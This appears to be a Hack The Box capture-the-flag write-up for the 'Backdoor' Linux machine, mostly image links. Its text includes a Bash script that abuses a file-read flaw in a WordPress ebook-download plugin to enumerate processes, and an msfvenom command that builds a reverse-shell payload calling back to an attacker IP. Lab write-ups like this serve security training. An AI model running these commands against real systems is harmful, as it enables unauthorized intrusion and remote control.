# 🛡️ HTB Machine Writeup — Backdoor

## Overview
- **Platform:** Hack The Box  
- **Difficulty:** Easy  
- **OS:** Linux

---

## Reconnaissance

### Nmap Scan





### Website - TCP Port 80



### Following POC





### Bash Script
I can make a quick Bash script from this to loop over a range of pids and try to find processes:
```
#!/bin/bash

for i in $(seq 1 50000); do

    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi

done
```

`./brute.sh`

The following process was found
```
/bin/sh -c while true;
    do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
done
```

### Generating Payload

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf`



### Exploiting gdb



### User Flag





### Privilege Escalation

`ps auxww`







### Root Flag


